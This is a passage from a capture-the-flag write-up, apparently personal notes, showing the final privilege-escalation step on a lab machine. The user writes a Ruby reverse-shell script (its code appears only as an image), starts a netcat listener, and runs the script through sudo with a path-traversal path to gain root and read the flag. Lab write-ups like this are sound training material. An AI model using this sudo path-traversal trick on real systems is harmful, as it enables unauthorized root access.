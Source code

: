 ![Pasted image 20250722171025.png](../../2%20-%20Resources/Others/Flameshots/Pasted%20image%2020250722171025.png)

We [Nano](../../3%20-%20Tags/Hacking%20Tools/Nano.md) it in the target machine and make it executable :

```bash
carlos@airplane:~$ nano shell.rb
carlos@airplane:~$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  shell.rb  Templates  user.txt  Videos
carlos@airplane:~$ chmod +x shell.rb 
```

We setup the [Netcat](../../3%20-%20Tags/Hacking%20Tools/Netcat.md) listener and we execute with the path :

```bash
carlos@airplane:~$ sudo /usr/bin/ruby /root/../home/carlos/shell.rb

# cat /root/root.txt
190dcbeb688ce5fe029f26a1e5fce002
```

Pwned !!

